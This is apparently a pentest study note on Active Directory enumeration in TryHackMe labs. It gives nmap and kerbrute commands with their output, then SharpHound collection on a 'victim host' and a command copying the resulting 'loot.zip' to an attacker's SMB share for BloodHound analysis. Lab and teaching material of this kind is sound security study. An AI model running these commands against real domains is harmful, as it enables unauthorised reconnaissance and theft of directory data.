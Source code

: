 ```yaml
---
title: AD Enumeration
description: Introduction to Active directory enumeration.
---
```


# Active Directory - Enumeration

## Information gathering

Information gathering on services like `RDP` can tell you relatively good information about an Active Diretory host or domain.

- Target : `THM-AD`
- Domain : `spookysec.local`
- DNS Enty : `AttacktiveDirectory.spookysec.local`

```bash
$ nmap -p 53,80,88,135,139,445,464,593,636,3268,3269,3389 -sV -sC -oN scan.vuln.nmap 10.10.169.152
[...]
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=AttacktiveDirectory.spookysec.local
| Not valid before: 2022-02-13T17:33:50
|_Not valid after:  2022-08-15T17:33:50
| rdp-ntlm-info:
|   Target_Name: THM-AD
|   NetBIOS_Domain_Name: THM-AD
|   NetBIOS_Computer_Name: ATTACKTIVEDIREC
|   DNS_Domain_Name: spookysec.local
|   DNS_Computer_Name: AttacktiveDirectory.spookysec.local
|   Product_Version: 10.0.17763
|_  System_Time: 2022-02-14T18:27:20+00:00
|_ssl-date: 2022-02-14T18:27:30+00:00; -1s from scanner time.
Service Info: Host: ATTACKTIVEDIREC; OS: Windows; CPE: cpe:/o:microsoft:windows
[...]
```

## User enumeration

```bash
$ kerbrute userenum --dc 10.10.169.152 -d spookysec.local userlist.txt
[...]
2022/02/14 19:37:15 >  Using KDC(s):
2022/02/14 19:37:15 >   10.10.169.152:88

2022/02/14 19:37:16 >  [+] VALID USERNAME:       james@spookysec.local
2022/02/14 19:37:17 >  [+] VALID USERNAME:       svc-admin@spookysec.local
2022/02/14 19:37:19 >  [+] VALID USERNAME:       James@spookysec.local
2022/02/14 19:37:20 >  [+] VALID USERNAME:       robin@spookysec.local
2022/02/14 19:37:28 >  [+] VALID USERNAME:       darkstar@spookysec.local
2022/02/14 19:37:33 >  [+] VALID USERNAME:       administrator@spookysec.local
[...]
```

## BloodHound

**BloodHound** allows you to make a graph of an Active Directory domain and quickly find misconfiguration vulnerabilities in it.

- Graphic viewer : [BloodHound](https://github.com/BloodHoundAD/BloodHound)
- Collector : [SharpHound](https://github.com/BloodHoundAD/SharpHound)
- Graph database : [neo4j](https://neo4j.com/download/)

### Get started

1. Download SharpHound on the victim host.
2. Using powershell version :
	1. Load SharpHound : `.\SharpHound.ps1`
	2. Start SharpHound collection : `Invoke-Bloodhound -CollectionMethod All -Domain CONTROLLER.local -ZipFileName loot.zip`
3. Using exectuable version :
	1. Start SharpHound collection : `.\SharpHound.exe -d CONTROLLER.local --zipfilename loot.zip`
4. Download the archive result on your attacker machine : `copy .\20220219102531_loot.zip \\10.9.52.138\tmpshare\loot.zip`
5. Run neo4j server : `sudo docker run --rm -p 7474:7474 -p 7687:7687 -e NEO4J_AUTH=neo4j/toto -v /tmp/neo4j/data:/data neo4j
6. Run BloodHound : Download release and execute `./BloodHound-linux-x64/BloodHound` 
	- Host : bolt://localhost:7687
	- Username : neo4j
	- Password : toto
7. Drag and drop `loot.zip` into `Bloodhound`.

You can run pre-defined queries by clicking on `<menu burger icon>`, then `Analysis` and finally on the queries you want to execute.

## References

- [THM - Post-Exploitation Basics](https://tryhackme.com/room/postexploit)